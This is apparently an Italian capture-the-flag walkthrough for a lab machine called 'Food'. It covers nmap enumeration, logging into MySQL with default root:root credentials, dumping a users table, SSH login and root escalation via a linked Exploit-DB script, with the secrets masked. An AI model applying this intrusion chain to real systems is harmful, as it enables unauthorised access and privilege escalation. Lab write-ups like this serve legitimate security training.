 # FOOD

### enum
si parte sempre con uno scan 
```bash
nmap food.thm -sV -sC 
```

### servizio sql

ho notato che è aperto un servizio sql adiamo ad analizzarlo meglio con nmap

```bash
nmap food.thm -sV --script *sql* 
```
quando nmap finisce lo scan ci restituisce dati molto utili per esempio che l'utente di mysql è root:root
e questo ci da carta bianca sulla conessione all'sql

quindi mi collego all'sql
```bash
mysql -u root -h 10.10.79.244 -p
```
successivamente mi faccio dumpare tutti i database presenti
```bash
show databases;
```
```bash
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
```

ecco la tables che ci serve andiamo a prenderla
```bash
use users
```
e successivamente 
```bash
show tables;
```

adesso abbiamo trovato una tables di nome user andiamo a leggere cosa c'è dentro
```bash
SELECT * FROM User;
```


ramen    ***************                       
flag     ************************************* 


ecco un utente con la sua password e un flag!

entriamo in ssh

## ssh
```bash
ssh ramen@food.thm
```
controllate in giro ci dovrebbero essere altre flag che potete prendere 

facendo un controllo dei permessi che abbiamo ho notato che possiamo fare davvero molto poco 
quindi sono andato a cercare le vulnerabilità per quanto riguarda GNU e ne ho trovata una davvero interessate
andiamo ad utilizzarla

## PRIVESC

https://www.exploit-db.com/exploits/41154 ho usato questo exploit per fare priv esc 
questo exploit sfrutta un autenticazione di livello maggiore(root) e ci permette tramite un vulnerabilità presente in 
quest'ultima di fare priv esc 

una volta scaricato lo script lo passiamo sulla macchina il gioco è fatto 
```bash
chmod +x script.sh
./script.sh
```
